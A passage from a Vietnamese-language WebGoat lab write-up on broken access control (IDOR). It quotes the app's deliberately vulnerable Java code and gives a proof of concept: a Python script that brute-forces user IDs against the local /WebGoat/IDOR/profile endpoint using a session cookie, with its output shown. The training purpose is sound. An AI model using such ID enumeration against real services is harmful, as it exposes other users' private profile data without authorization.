 ```java
        return failed(this).feedback("idor.view.profile.close2").build();
      }
```

```java
String authUserId = (String) userSessionData.getValue("idor-authenticated-user-id");
    // this is where it starts ... accepting the user submitted ID and assuming it will be the same
    // as the logged in userId and not checking for proper authorization
    // Certain roles can sometimes edit others' profiles, but we shouldn't just assume that and let
    // everyone, right?
    // Except that this is a vulnerable app ... so we will
    UserProfile currentUserProfile = new UserProfile(userId);
    if (userSubmittedProfile.getUserId() != null
        && !userSubmittedProfile.getUserId().equals(authUserId)) {
        // ...
```

### **POC**

Ở phần 2 và 3, khi đăng nhập tài khoản **`tom:cat`** thì khi nhấn vào view profile để xem thông tin thì có một request được gửi đi `/profile` với response trả về như hình 

![img](/img/WebGoat/(A1)Broken%20Access%20Control%207fb110e753944c7fa58a48dee83dff10/Untitled%207.png)

Sử dụng url này kèm với userId: `…/profile/{userId}` thì có được một response như sau

![img](/img/WebGoat/(A1)Broken%20Access%20Control%207fb110e753944c7fa58a48dee83dff10/Untitled%208.png)

Feedback trả về nói là đã đúng đường dẫn nhưng cần thử một userId khác, lúc này chỉ cần viết một script nhỏ để bruteforce userId hợp lệ (hoặc dùng Intruder của Burp Suite)

```python
import requests

URL = "http://localhost:8080/WebGoat/IDOR/profile/"
headers = {  
    'Cookie': 'JSESSIONID={your session id}'
}  
id = 2342384
while True:
    r = requests.get(URL + str(id), headers=headers)
    json = r.json()
    lessonCompleted = json["lessonCompleted"]
    if lessonCompleted == True:
        print("[+] ID found: " + str(id))
        break
    else:
        id += 1
        print("[-] Trying ID: " + str(id))
```

```powershell
PS C:>Users/Admin/Desktop> python -u "d:\VNPT\projects\WebGoat\Payload\bruteforce-id.py"
[-] Trying ID: 2342385
[-] Trying ID: 2342386
[-] Trying ID: 2342387
[-] Trying ID: 2342388
[+] ID found: 2342388
```
